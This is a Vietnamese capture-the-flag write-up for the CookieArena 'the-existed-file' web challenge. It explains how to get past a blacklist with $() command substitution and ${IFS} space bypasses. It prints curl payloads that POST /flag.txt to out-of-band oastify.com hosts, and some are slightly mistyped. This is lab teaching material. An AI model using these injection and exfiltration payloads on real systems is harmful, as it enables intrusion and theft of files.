




https://battle.cookiearena.org/challenges/web/the-existed-file

1.	Phân tích code source

-	Phương thức phải là phương thức POST thì giá trị của biến file_path mới được thực hiện trong lệnh shell
-	Tiếp đến là blacklist đã được fill hết các kí tự toán tử
-	Hàm command chỉ có ls nhưng ta vẫn có thể thực hiện được payload
-	Kết quả hiển thị ra màn hình chỉ bao gồm File is existed! Hoặc File is not existed! 
Tức là ta sẽ phải sử dụng kĩ thuật OOB lấy file flag.txt sang một server khác

2.	Bắt đầu thử các payload

- Vì các kí tự toán tử đều đã được fill hết kể cả backtick command nên ta sẽ sử dụng $(injection command)
-	Ta thử với payload: $(/flag.txt) để kiểm tra xem có tồn tại file ko 

có tồn tai file vậy là $() hoạt động 

-	Giờ ta sẽ phải gửi giá trị của file flag.txt sang server burp collabrator
Ta có cú pháp để gửi với lệnh curl 
    - curl -X POST -F "file=@/duong/dan/den/flag.txt" http://dia-chi-may-chu-cua-ban/duong-dan-nhan-file
  -	Với cú pháp trên ta có payload: $ (curl$ -X POST -F "file=@ /flag.txt" http://akyj4om6e5xccygmgl3sakiet5zwnmbb.oastify.com) 
  -	Nhưng ta cũng cần phải bypass khoảng trống nữa ta sử dụng {IFS} là biến môi trường được sử dụng để xác định ký tự phân tách được sử dụng để tách các phần của một lệnh hoặc đối số. Giá trị mặc định của biến này là một khoảng trắng, tab hoặc ký tự xuống dòng. Tuy nhiên nó có thể được đặt thành bất kỳ ký tự nào khác.
  -	Giờ ta sửa lại payload: $ (curl${IFS}-X POST{IFS}-F{IFS}"file=@/flag.txt"{IFS}http:// b4gkop67y6hdwz0n0mntul2fd6jx7ovd.oastify.com)

- Có tồn tại file và giờ vào burp collaborator để nhận flag
  
